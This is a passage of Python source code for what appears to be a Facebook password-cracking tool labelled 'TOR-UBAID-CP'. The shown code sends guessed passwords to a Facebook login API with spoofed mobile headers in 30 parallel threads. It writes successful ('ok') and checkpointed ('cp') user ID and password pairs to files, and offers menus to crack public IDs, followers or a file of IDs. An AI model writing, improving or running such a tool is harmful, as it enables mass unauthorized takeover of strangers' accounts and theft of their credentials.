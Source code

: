 																	headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
																	data = requests.get(api, params=params, headers=headers_)
																	if "access_token" in data.text and "EAAA" in data.text:
																		print(" \033[1;32m[TOR-UBAID-CP] "+uid+" | "+pass8+"\033[0;97m")
																		ok = open("ok.txt", "a")
																		ok.write(uid+"|"+pass8+"\n")
																		ok.close()
																		oks.append(uid+pass8)
																	else:
																		if "www.facebook.com" in data.json()['error_msg']:
																			print(" \033[1;33m[TOR-UBAID-CP] "+uid+" | "+pass8+"\033[0;97m")
																			cp = open("cp.txt", "a")
																			cp.write(uid+"|"+pass8+"\n")
																			cp.close()
																			cps.append(uid+pass8)
												
										
										
		except:
			pass
	p = ThreadPool(30)
	p.map(main, id)
	print("")
	linex()
	print("")
	print("\033[92;1m THE PROCESS HAS BEEN COMPLETED")
	print("\033[93;1m TOTAL \033[92;1mOK\033[93;1m/\033[91;1mCP: "+str(len(oks))+"/"+str(len(cps)))
	print("")
	linex()
	print("")
	raw_input("\033[93;1m PRESS ENTER TO BACK ")
	menu()
	

def crack():
	global token
	os.system("clear")
	try:
		token = open("ubaid_token.txt","r").read()
	except IOError:
		print("")
		print("\t\033[91;1m  TOKEN NOT FOUND ")
		time.sleep(1)
		fb_token()
	os.system("clear")
	logo()
	print("")
	print("\t\033[93;1m  DIGIT PASS CRACKING")
	print("")
	print("\033[94;1m  [1] CRACK PUBLIC ID")
	print("\033[93;1m  [2] CRACK FOLLOWERS")
	print("\033[92;1m  [3] CRACK FILE")
	print("")
	crack_select()
